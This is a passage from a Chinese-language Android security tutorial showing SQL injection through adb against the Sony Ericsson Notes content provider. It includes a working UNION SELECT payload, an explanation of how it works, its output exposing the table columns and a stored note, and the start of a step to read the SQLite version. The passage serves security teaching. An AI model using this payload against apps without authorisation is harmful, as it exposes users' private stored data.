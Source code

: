 ```

前面的错误还显示了查询中使用的列的确切数量，即 14。这有助于在查询中编写 UNION 语句以进一步进行操作。

### 查找列号以便进一步提取

与基于 web 的 SQL 注入类似，现在让我们使用 UNION 执行 SELECT 语句以查看返回的列。由于我们直接在终端上执行此操作，因此所有 14 列都将被回显。但是让我们测试一下。

运行以下命令将打印从 1 开始的所有 14 个数字：

```
$ adb shell content query --uri content://com.sonyericsson.notes.provider.Note/notes/ --where "_id=1 ) union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14-- ("

```

这个命令是如何工作的？

首先，看看我们得到的错误，有一个括号被打开，我们的单引号在关闭它之前导致了一个错误。您可以在下面看到它：

```
WHERE (_id=1')

```

因此，我们首先关闭括号，然后编写`select`查询，最后在查询后注释掉所有内容。现在，上述`where`条款将变为以下内容：

```
WHERE (_id=1) union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14—

```

之后，从 1 到 14 的列应与现有 SELECT 语句中的列数匹配。当我们使用 SELECT 语句编写 UNION 时，两个语句中的列数应该相同。因此，前面的查询将在语法上与现有查询匹配，并且不会出现任何错误。

运行上一个命令将导致以下结果：

```
$ adb shell content query --uri content://com.sonyericsson.notes.provider.Note/notes/ --where "_id=1 ) union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14-- ("

Row: 0 isdirty=1, body=2, account_id=3, voice_path=4, doodle_path=5, deleted=6, modified=7, sync_uid=8, title=9, meta_info=10, _id=11, created=12, background=13, usn=14
Row: 1 isdirty=1, body=test note_1, account_id=1, voice_path=, doodle_path=, deleted=0, modified=1062246014, sync_uid=NULL, title=No title, meta_info=
false
0, _id=1, created=1062246014, background=com.sonyericsson.notes:drawable/notes_background_grid_view_1, usn=0
$

```

前面的输出显示了两个 SQL 查询的结果，显示了响应中的所有 14 个数字。

### 运行数据库功能

通过稍微修改前面的 SQL 查询，我们可以提取更多信息，如数据库版本、表名和其他有趣的信息。

### 查找 SQLite 版本：

运行`sqlite_version()`功能显示 SQLite 版本信息，如下图所示：

![Finding out SQLite version:](img/image01459.jpeg)

我们可以在查询中使用此函数，通过易受攻击的应用查找 SQLite 版本。以下命令显示了如何执行此操作：

```